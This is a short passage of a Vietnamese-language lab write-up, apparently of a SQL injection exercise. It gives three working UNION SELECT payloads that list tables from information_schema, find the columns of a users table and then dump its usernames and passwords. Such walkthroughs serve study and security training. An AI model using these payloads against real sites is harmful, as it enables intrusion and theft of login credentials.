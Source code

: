 Dùng payload `'+union+select+NULL,table_name+from+information_schema.tables+--` để lấy tên các bảng, ta tìm được bảng `users_dqghnn` khả nghi

![Untitled](writeup-media/Untitled%2029.png)

Dùng payload  `'+union+select+NULL,column_name+from+information_schema.columns+where+table_name='users_dqghnn'+--` để tìm tên các cột

![Untitled](writeup-media/Untitled%2030.png)

Có tên bảng và cột, ta truy vấn SQL để lấy thông tin đăng nhập như bình thường

`'+union+select+password_umtufo,username_zytctf+from+users_dqghnn+--`
